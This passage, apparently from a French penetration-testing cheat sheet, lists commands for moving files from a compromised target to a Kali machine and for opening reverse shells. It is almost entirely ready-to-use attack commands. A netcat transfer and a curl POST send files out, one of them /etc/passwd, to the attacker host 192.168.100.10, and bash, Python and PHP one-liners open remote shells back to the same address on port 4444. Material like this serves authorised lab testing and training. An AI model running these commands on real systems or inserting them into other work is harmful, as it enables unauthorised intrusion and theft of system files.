 ### De la cible vers Kali

```bash
# Netcat (sur Kali, recevoir)
nc -lvnp 4444 > file.txt

# Sur la cible, envoyer
nc 192.168.100.10 4444 < file.txt

# Avec curl (POST)
curl -X POST http://192.168.100.10:8000/upload -F "file=@/etc/passwd"
```

### SCP / SFTP

```bash
# Copier vers la cible
scp file.txt user@192.168.100.20:/tmp/

# Copier depuis la cible
scp user@192.168.100.20:/tmp/file.txt .

# Répertoire complet
scp -r /path/to/dir user@192.168.100.20:/tmp/
```

---

## 🔐 Reverse Shells

### Bash Reverse Shell

```bash
# Sur Kali (listener)
nc -lvnp 4444

# Sur la cible
bash -i >& /dev/tcp/192.168.100.10/4444 0>&1
```

### Python Reverse Shell

```bash
# Sur la cible
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.100.10/4444 0>&1'");
?>
```
